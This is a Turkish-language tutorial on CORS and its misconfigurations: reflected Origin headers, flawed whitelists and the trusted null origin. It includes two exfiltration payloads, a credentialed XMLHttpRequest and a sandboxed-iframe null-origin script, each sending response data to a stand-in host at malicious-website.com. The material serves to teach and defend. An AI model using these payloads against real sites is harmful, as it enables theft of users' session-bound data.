

# CORS nedir?
CORS, SOP kısıtlamasını esnetmek için geliştirilmiş bir mekanizmadır. Tarayıcılar bir web uygulamasının kendi origin'i dışındaki bir origin'e doğrudan istek göndermesini engeller. Ancak bu günümüzde oldukça fazla gerekli olur (örnek: Frontend: example.com, API: api.example.com)

# Origin nedir?
Bir origin şu 3 parçadan oluşur:

- Protokol: `http`, `https`
- Host: `example.com`
- Port: `80`, `443`

Örnek:


# Preflight Request Nedir?
Tarayıcının CORS kuralları kapsamında asıl isteği göndermeden önce hedef sunucudan izin alıp almadığını kontrol etmek için yaptığı bir OPTIONS isteğidir. Sunucu bu isteğe uygun Access-Control-Allow-* header'larıyla cevap verirse tarayıcı asıl isteği gönderir aksi halde işlem engellenir.

# Origin Header’ı Yansıtarak Dinamik ACAO Üretimi
Bazı uygulamalar, birden fazla domaine erişim izni vermek zorundadır. Bu genellikle gelen HTTP isteğindeki Origin header'ını okuyup bunu doğrudan yanıtta Access-Control-Allow-Origin header’ı olarak yansıtarak yapılır.

Aşağıdaki isteği ele alalım:
```http
GET /sensitive-victim-data HTTP/1.1  
Host: vulnerable-website.com  
Origin: https://malicious-website.com  
Cookie: sessionid=...  
```

Sunucu şu şekilde yanıt verirse:
```http
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: https://malicious-website.com  
Access-Control-Allow-Credentials: true  
...
```

Bu header’lar, isteğin geldiği domain olan malicious-website.com alanına erişim izni verildiğini, ayrıca çerez gibi kimlik doğrulama bilgileri içeren isteklerin de kabul edildiğini belirtir (Access-Control-Allow-Credentials: true). Bu, işlemin kullanıcının oturumunda gerçekleşmesini sağlar.

Bu uygulama, Access-Control-Allow-Origin header’ında herhangi bir Origin değerini yansıtıyorsa, herhangi bir domain, hedef uygulamadan veri okuyabilir hale gelir. Eğer yanıt, bir API anahtarı, CSRF token’ı ya da benzeri hassas veri içeriyorsa, saldırgan bunu kendi web sitesine koyacağı şu JavaScript ile kolayca elde edebilir:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

# Origin Header'larının Ayrıştırılmasında Hatalar
Bazı uygulamalar, birden fazla origin'e erişimi desteklemek için whitelist kullanır.

Örneğin uygulama aşağıdaki gibi istek alır:
```http
GET /data HTTP/1.1
Host: normal-website.com
Origin: https://innocent-website.com
```

Uygulama, gelen Origin değerini beyaz listedeki domain'lerle karşılaştırır ve eğer uygunsa aşağıdaki gibi yanıt verir:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://innocent-website.com
```

Ancak CORS whitelist mantığı uygulanırken sıkça hatalar yapılır. Bazı organizasyonlar, mevcut ve gelecekteki tüm alt domain’lere izin verecek şekilde yapılandırma yapar. Bu kurallar genellikle prefix, suffix veya regez ile tanımlanır. Bu yapılandırmanın yanlış uygulanması kontrol dışı domain'lere erişim izni verilmesine yol açabilir.

Prefix/Suffix tabanlı bypasslar ve URL manipülasyon teknikleri için:
https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet

Bazı uygulamalar, yerel geliştirme ortamlarını desteklemek amacıyla null origin değerine izin verebilir:
```http
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

Sunucu yanıtı aşağıdaki gibi verebilir:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

Bu durumda, saldırgan farklı yollarla Origin: null içeren bir cross-origin istek oluşturabilir.

Aşağıdaki payload, bir data: URI’si içinde sandboxed iframe aracılığıyla null origin üretir ve hassas veriyi sızdırır:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
  location='malicious-website.com/log?key='+this.responseText;
};
</script>">
</iframe>
```

Bu teknikle Origin: null ile yapılan istek, sunucu tarafından kabul edilirse, oturum tanımlı isteklerle hassas veriler sızdırılabilir.

Referanslar:
- https://portswigger.net/web-security/cors
- https://aws.amazon.com/tr/what-is/cross-origin-resource-sharing/

Tools:
- https://github.com/chenjj/CORScanner.git
